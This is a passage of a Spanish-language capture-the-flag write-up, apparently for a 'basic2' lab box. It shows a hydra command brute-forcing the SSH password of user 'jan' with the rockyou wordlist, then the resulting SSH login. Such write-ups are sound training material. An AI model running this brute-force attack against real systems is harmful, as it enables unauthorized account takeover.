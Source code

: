 Encontramos un archivo staff.txt

Lo llevamos a nuestro equipo con get staff.txt y nos reporta lo siguiente:

> PLEASE do not upload non-work-related items to this share. I know it's all in fun, but this is how mistakes happen. (This means you too, Jan!) -Kay

Nos dan los dos usuarios.

A continuación usamos hydra para conseguir la contraseña del usuario jan por fuerza bruta:

```bash
❯ sudo hydra -l jan -P /home/jorge/Descargas/rockyou.txt ssh://10.10.88.218 -t 4
```

Como el puerto de ssh está abierto, nos conectamos mediante él con el usuario y contraseña.

```bash
❯ ssh jan@10.10.223.9
The authenticity of host '10.10.223.9 (10.10.223.9)' can't be established.
ED25519 key fingerprint is SHA256:XKjDkLKocbzjCch0Tpriw1PeLPuzDufTGZa4xMDA+o4.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.223.9' (ED25519) to the list of known hosts.
jan@10.10.223.9's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Mon Apr 23 15:55:45 2018 from 192.168.56.102
jan@basic2:~$ 

```
